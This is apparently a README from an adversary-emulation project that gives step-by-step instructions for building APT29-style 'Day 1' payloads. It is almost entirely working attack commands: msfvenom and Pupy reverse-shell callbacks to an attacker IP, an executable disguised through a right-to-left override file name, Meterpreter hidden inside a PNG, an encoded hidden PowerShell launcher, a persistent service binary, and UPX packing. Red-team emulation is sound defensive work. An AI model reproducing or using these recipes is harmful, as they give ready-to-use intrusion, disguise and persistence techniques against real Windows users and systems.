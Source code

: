 ### Create Day 1 Payloads


#### 1. CosmicDuke Payload (cod.3aka3.scr)

| Filename | Location | Description |
| ------ | ------ | ------ |
| cod.3aka3.scr | payloads/cod.3aka3.scr | Portable executable that uses right-to-left override character to disguise file extension |


1. Generate a Pupy-EC4 callback payload:

```
gen -o cod.3aka3.scr -f client -O windows -A x64 connect -t ec4 --host <attacker IP>:1234
```

2. On Windows attack platform, rename cod.3aka3.scr with right-to-left override character (https://redcanary.com/blog/right-to-left-override/)
  
    1. Windows key and type 'Character Map'; select open
    2. Scroll to the RTLO character (U+202E)
    3. Select the RTLO character, then click "select", then click "copy"
    4. Right click `cod.3aka3.scr`, then click "Rename"
    5. Move cursor to beginning of filename. Press "ctrl-v" to paste RTLO character, and hit "enter" to save the rename.
    6. The file should now be named "rcs.3aka3.doc"

![alt text](https://mk0resourcesinfm536w.kinstacdn.com/wp-content/uploads/041515_2317_SpoofUsingR1.png)

Screenshot taken from: https://resources.infosecinstitute.com/spoof-using-right-to-left-override-rtlo-technique-2/


#### 2. Privilege Escalation Payload (monkey.png)

| Filename | Location | Description |
| ------ | ------ | ------ |
| monkey.png | payloads/monkey.png | Well formed PNG with embedded PowerShell-Meterpreter callback |

Steps to re-create:
1. Generate a PowerShell-formatted Meterpreter payload:

```
msfvenom -p windows/x64/meterpreter/reverse_https LHOST=<attacker IP> LPORT=443 --format psh -o meterpreter.ps1
```

2. Transfer meterpreter.ps1 to Windows attack platform; embed meterpreter.ps1 into a PNG file using Invoke-PSImage (https://github.com/peewpw/Invoke-PSImage):

```
Import-Module .\Invoke-PSImage.ps1
```

```
Invoke-PSImage -Script .\meterpreter.ps1 -Out .\monkey.png -Image .\monkey.jpg
```

#### 3. Startup Folder Payload (strings64/hostui.exe)

| Filename | Location | Description |
| ------ | ------ | ------ |
| strings64.exe | payloads/SysinternalsSuite/strings64.exe | Launches Meterpreter using CreateProcessWithToken API call 
1. Generate PowerShell-formatted Meterpreter:

```
msfvenom -p windows/x64/meterpreter/reverse_https LHOST=<attacker IP> LPORT=443 --format psh-cmd
```

2. Copy the PowerShell 1-liner to clipboard. Your clipboard should look like: 

`powershell.exe -nop -w hidden -e aQBmAc...base64 string...KAOwa=`

Do **not** copy the execution preamble (`%COMSPEC% /b /c start /b /min`)

3. Open `payloads/readme.txt`; paste the PowerShell-Meterpreter blog on line `816`. This line should look like:

`$javasvc = "powershell.exe -nop -w hidden -e aQBmAc...base64 string...KAOwa="`

#### 4. Persistent Service Payload (javamtsup.exe)

| Filename | Location | Description |
| ------ | ------ | ------ |
| javamtsup.exe | payloads/SysinternalsSuite/javamtsup.exe | Reverse HTTPS Meterpreter service executable |

1. Generate a Meterpreter service-binary:

```
msfvenom -p windows/x64/meterpreter/reverse_https LHOST=<attacker IP> LPORT=443 -f exe-service -o javamtsup.exe
```

#### 5. SeaDuke Payload (python.exe)

| Filename | Location | Description |
| ------ | ------ | ------ |
| python.exe | payloads/Seaduke/python.exe | Python Meterpreter compiled to EXE with PyInstaller |

1. Generate python-formatted Meterpreter:

```
msfvenom -p python/meterpreter/reverse_https LHOST=<attacker IP> LPORT=8443 -o python.py
```

2. Transfer python.py to Windows attack platform

3. Compile python.py into a portable executable using PyInstaller (https://pypi.org/project/PyInstaller/)

```
pyinstaller -F python.py
```

4. Pack the python.exe payload using UPX (https://github.com/upx/upx)

```
upx --brute python.exe
```
